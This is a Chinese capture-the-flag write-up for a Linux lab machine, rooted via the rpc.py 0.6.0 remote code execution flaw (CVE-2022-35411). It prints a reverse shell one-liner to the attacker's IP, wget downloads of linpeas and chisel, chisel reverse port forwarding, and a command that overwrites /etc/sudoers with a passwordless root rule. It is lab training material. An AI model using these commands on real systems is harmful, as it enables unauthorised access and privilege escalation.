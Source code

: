 ```yaml
---
description: Linux / 中等难度 / rpc.py 0.6.0 RCE
---
```


# ✔️ PC

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描，发现2个开放端口：22和8000

<figure><img src="../.gitbook/assets/1 (4).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 从Nmap扫描结果也可直接得知，发现8000端口就是一个终端：

<figure><img src="../.gitbook/assets/2 (4).png" alt=""><figcaption></figcaption></figure>

* 将shell回连到自己的Kaili机器上，方便后续操作：

```bash
# Kali
nc -lvnp 5555
# 目标主机
sh -i >& /dev/tcp/192.168.45.154/5555 0>&1
```

<figure><img src="../.gitbook/assets/3 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (5).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 传linpeas.sh到目标系统进行信息收集：

```bash
# Kali目录下开启服务器
pyhton3 -m http.server 8888
# 目标主机
wget http://192.168.45.154:8888/linpeas.sh /home/user/linpeas.sh
```

<figure><img src="../.gitbook/assets/5 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
关于linpeas所收集到的可能可被利用的CVE漏洞是具有参考意义的，但并非每次都能成功作用于当前的目标系统，还需要结合目标系统实际的具体情况，仔细查看各项输出信息，再做判断。（兔子洞很容易出现在这个阶段，就像本例就没有利用到那些建议的CVE）
{% endhint %}

* 本例中，从linpeas的输出信息可得知还有两个活动的开放端口（53和65432）是之前Nmap阶段并没有扫描出来的，因此可以重点关注一下：

<figure><img src="../.gitbook/assets/6 (5).png" alt=""><figcaption></figcaption></figure>

* 在查看以root权限运行的进程时，发现有一个\`rpc.py\`的脚本是运行在/opt目录下的，该目录并不是安装默认应用程序的文件夹：

<figure><img src="../.gitbook/assets/7 (6).png" alt=""><figcaption></figcaption></figure>

* 查看一下该脚本发现它是运行在当前目标系统的65432端口上的，又是65432：

<figure><img src="../.gitbook/assets/8 (7).png" alt=""><figcaption></figcaption></figure>

* 因为之前的扫描无法得知端口65432上运行的关于服务的具体信息，所以决定使用chisel对该端口进行反向端口转发，再用Nmap扫出关于它的详细信息：

```bash
# Kali机器和目标系统机器都需要安装相同版本的chisel
# 本例下载的是chisel linux 1.9.1版本的，将该工具传入目标系统中
wget http://192.168.45.154:8888/chisel /home/user/chisel
chmod +x chisel
```

<figure><img src="../.gitbook/assets/9 (5).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器上开启chisel服务器，监听好端口：

```bash
chisel server -p 7777 --reverse
```

<figure><img src="../.gitbook/assets/10 (5).png" alt=""><figcaption></figcaption></figure>

* 然后在目标系统上开启chisel的客户端，并设置端口转发各个参数后运行：

```bash
chisel client 192.168.xx.xxx:7777 R:65432:127.0.0.1:65432
```

<figure><img src="../.gitbook/assets/11 (4).png" alt=""><figcaption></figcaption></figure>

* 此时Kali主机的服务端应该已经有了转发成功的数据流，可确认一下是否真的成功：

```bash
netstat -tulnp
```

<figure><img src="../.gitbook/assets/12 (4).png" alt=""><figcaption></figcaption></figure>

* 现在就可以用Nmap对Kali机器上的65432端口进行扫描，以获取该端口上运行的服务的详细信息了：

```bash
nmap -sC -sV -p 65432 127.0.0.1 -A -sT
```

<figure><img src="../.gitbook/assets/13 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据Nmap输出信息，没有发现什么东西，所以直接尝试搜索\`rpc.py\`的漏洞利用，发现了一个远程代码执行的漏洞：

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 阅读代码后，发现可将\`exec\_command()\`函数中的内容直接修改为自己需要的命令：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将此处命令修改为可以让user用户无需密码即可以root权限运行各个命令：

```bash
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 这个脚本是直接在exploitdb里下载的，里面每个=后面都有个\`3D\`的乱码得删掉，才能执行成功。

### ROOT

* 修改好后的脚本传入目标机器，赋予执行权限，直接运行该脚本即可提权成功：

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获取flag：

<figure><img src="../.gitbook/assets/20 (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例以为又是一个评级过高的简单机器，因为该机器并没有GET SHELL的过程。在之后的提权阶段需要涉及到反向端口转发和仔细的进行信息枚举，才能发现可被利用的漏洞。

CVE-2022-35411
{% endhint %}
